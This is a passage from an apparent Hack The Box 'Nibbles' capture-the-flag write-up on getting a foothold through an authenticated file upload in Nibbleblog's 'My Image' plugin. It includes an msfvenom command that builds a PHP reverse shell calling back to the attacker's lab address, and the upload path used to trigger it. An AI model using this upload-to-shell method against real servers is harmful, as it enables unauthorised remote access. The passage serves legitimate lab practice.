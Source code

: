 <p align="center">
  <img src="{{ site.github.url }}/images/htb/nibbles/image-20210710154302458.png" />
</p>


## Initial Foothold

Looking online, I found a possible way to gain a shell since I am authenticated from [WikiHak](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/). It mentions to enable the "My Image" plugin by going to this link: http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=list

<p align="center">
  <img src="{{ site.github.url }}/images/htb/nibbles/image-20210710160945017.png" />
</p>

We can see the "My Image" plugin is installed. I clicked "Configure" and was brought to this page:

<p align="center">
  <img src="{{ site.github.url }}/images/htb/nibbles/image-20210710161027597.png" />
</p>

All I have to do is click "Browse..." and upload a `.php reverse shell`. You could do this multiple ways but I'm going to just keep it simple and just create one by using MSFvenom which is a payload generator and encoder tool. I'm going to use the following command to create a `php reverse shell payload`. You could also go and use something like [PentestMonkey's PHP reverse shell]([GitHub - pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)) which is great too. I will probably use that one but I will give the command to create a php reverse shell payload with MSFvenom either way:

```
msfvenom -p php/reverse_php LHOST=10.10.14.36 LPORT=1234 -f raw > shell.php
```

This should create a `php reverse shell payload` within the directory you ran this command. I went ahead and uploaded the `shell.php` file.

<p align="center">
  <img src="{{ site.github.url }}/images/htb/nibbles/image-20210710161447380.png" />
</p>

Hitting "Save changes" I got thrown a few errors on my page. 

<p align="center">
  <img src="{{ site.github.url }}/images/htb/nibbles/image-20210710161512761.png" />
</p>

After uploading the `shell.php` file, we can navigate to the following directory:

```
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/
```

<p align="center">
  <img src="{{ site.github.url }}/images/htb/nibbles/image-20210710161600961.png" />
</p>
